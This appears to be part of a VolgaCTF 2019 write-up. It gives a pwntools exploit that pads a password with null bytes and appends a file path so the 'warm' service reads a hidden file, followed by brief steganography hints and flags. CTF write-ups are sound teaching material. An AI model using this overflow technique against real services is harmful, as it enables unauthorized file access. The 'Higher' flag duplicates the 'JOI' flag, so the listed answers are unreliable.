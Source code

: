 ```python

#!/usr/bin/env python
from pwn import *
import string , itertools

# VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}

host , port = 'warm.q.2019.volgactf.ru' , 443
y = remote( host , port )

pwd = 'v8&3mqPQebWFqM?x'
f = '/opt/warm/flag' # Seek file with something more sacred!
f = '/opt/warm/sacred'

y.sendlineafter( 'password!\n' , pwd.ljust( 0x64 , '\0' ) + f )

y.interactive()
```

## Misc
### JOI
Qrcode at red 0:
![](https://i.imgur.com/EaQny8m.png)
* VolgaCTF{5t3g0_m4tr3shk4_in_4cti0n}
### Higher
Frequency: 15K ~ 20K:
![](https://i.imgur.com/JjbGDgi.jpg)
* VolgaCTF{5t3g0_m4tr3shk4_in_4cti0n}
